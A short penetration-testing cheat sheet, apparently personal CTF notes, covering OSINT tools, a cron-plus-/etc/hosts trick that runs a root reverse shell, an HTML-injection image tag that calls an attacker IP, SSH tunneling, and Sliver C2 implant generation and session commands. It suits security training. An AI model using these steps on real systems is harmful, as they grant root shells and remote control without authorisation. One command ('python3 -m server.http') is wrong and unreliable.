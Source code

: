 ###### OSINT
- **theHarvester**, **Shodan**, **Maltego**, **Recon-ng**, **Spiderfoot**, **Twint** (twitter OSINT)

###### DNS Spoofing
- add your ip to /etc/hosts on the victim machine. If there's a cron job running with root privileges that makes a request to a domain to get a file and then executes it, you can create a file in the specified path by the cron job with a reverse shell script to get the root shell. (revshells.com php pentest monkey)

###### HTML Injection
- `<img src='http:10.21.55.48:6969'>` , a web server has to be open (`python3 -m server.http 80`)

###### SSH tunneling
- "SSH tunneling, or SSH port forwarding, is **a method of transporting arbitrary data over an encrypted SSH connection**. SSH tunnels allow connections made to a local port (that is, to a port on your own desktop) to be forwarded to a remote machine via a secure channel."
- `ssh -L [local_port]:[remote_host]:[remote_port] [user]@[ssh_server]`

###### Sliver C2
- https://github.com/BishopFox/sliver, you have a one liner for installing it.
- `sudo systemctl start sliver.service`
- `sliver`
- `sliver > generate --mtls <local-ip>:8888 --os linux --save shell.elf`
- start MTLS listener: `sliver > mtls`
- `sliver > use`: to interact with a session
- after session is selected:
	- `sliver (SILENT_RUBBER) > info` - for displaying target machine info
	- `sliver (SILENT_RUBBER) > shell` - drop into a shell
		-  `exit` -> `CTRL + D` - get back to the sliver prompt
	- `sliver (SILETN_RUBBER) > netstat`
	- `sliver (SILETN_RUBBER) > ifconfig`
	- `sliver (SILETN_RUBBER) > help` 
- you can set up socks5 proxies with sliver
	- `sliver (SILENT_RUBBER) > socks5 start` -> make sure you have `/etc/proxychains4.conf` set up
	- you can then use `rustscan` for port scanning.

###### git
- `git log`
- `git branch`
- `git checkout <branch-name>`
- `git switch --detach <commit-hash>` (switch to commit without creating a new branch)
- `git switch -c <new-branch-name> <commit-hash>` (switch to commit and create a new branch from it)